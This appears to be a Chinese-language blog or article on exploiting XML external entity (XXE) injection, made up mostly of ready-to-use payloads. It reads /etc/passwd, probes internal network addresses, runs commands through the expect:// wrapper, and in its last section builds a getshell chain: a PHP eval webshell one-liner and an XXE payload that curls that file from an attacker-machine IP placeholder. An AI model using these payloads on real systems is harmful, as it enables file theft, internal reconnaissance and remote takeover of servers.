 02

★★ 利用思路 ★★

  
  
  

     **0X01** **直接读取系统文件**

    使用如下类似Payload进行读取系统敏感文件  

  *   *   *   *   * 

    
    
    <?xml version = "1.0"?><!DOCTYPE ANY [    <!ENTITY xxe SYSTEM "file:///etc/passwd">]><x>&xxe;</x>

![](https://gitee.com/fuli009/images/raw/master/public/20230714181318.png)

    

 **    0X02 ** **内网探针或攻击内网应用（触发漏洞地址）**

    使用如下类似Payload获取内网系统敏感文件

  *   *   *   *   *   *   *   * 

    
    
    <?xml version="1.0" encoding="UTF-8"?><!DOCTYPE cnc [    <!ELEMENT cnc ANY >    <!ENTITY xxe SYSTEM "http://IP/index.txt" >]><x>&xxe;</x>  
    #IP为内网地址或域名

 **    0X03 ** **借助expect扩展执行系统命令**

    (1)使用如下类似Payload获取系统敏感文件

  *   *   *   *   * 

    
    
    <?xml version = "1.0"?><!DOCTYPE ANY [    <!ENTITY xxe SYSTEM "expect://id" >]><x>&xxe;</x>

![](https://gitee.com/fuli009/images/raw/master/public/20230714181319.png)

     (2)部署Web服务器，达到Getshell的方法。

     首先，准备好poc.php，并写入一句话马，参考如下：

  * 

    
    
    <?php echo('<?php eval($_POST[‘2023’]);?>');?>

     然后，利用XXE执行下载命令，参考如下：

  *   *   *   *   *   * 

    
    
    <?xml version="1.0" version="UTF-8"?>        <!DOCTYPE title[        <!ENTITY xxe SYSTEM "expect://curl$IFS-O$IFS'攻击机ip/poc.php'">        ]>  
            <config><title>&xxe;</title></config

![](https://gitee.com/fuli009/images/raw/master/public/20230714181320.png)
